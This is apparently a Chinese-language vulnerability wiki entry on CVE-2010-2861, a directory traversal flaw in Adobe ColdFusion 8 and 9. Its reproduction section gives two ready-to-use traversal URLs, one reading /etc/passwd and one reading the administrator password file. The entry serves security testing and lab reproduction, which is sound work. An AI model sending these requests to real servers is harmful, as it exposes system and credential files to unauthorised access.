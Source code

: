 <h1>（CVE-2010-2861）Adobe ColdFusion 文件读取漏洞</h1>
<h2>一、漏洞简介</h2>
<p>Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。</p>
<h2>二、漏洞影响</h2>
<p>Adobe ColdFusion 8
<br>
Adobe ColdFusion 9</p>
<h2>三、复现过程</h2>
<p>直接访问http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en，即可读取文件/etc/passwd：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img1.png"/>
<p>读取后台管理员密码http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img2.png"/>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/</p>
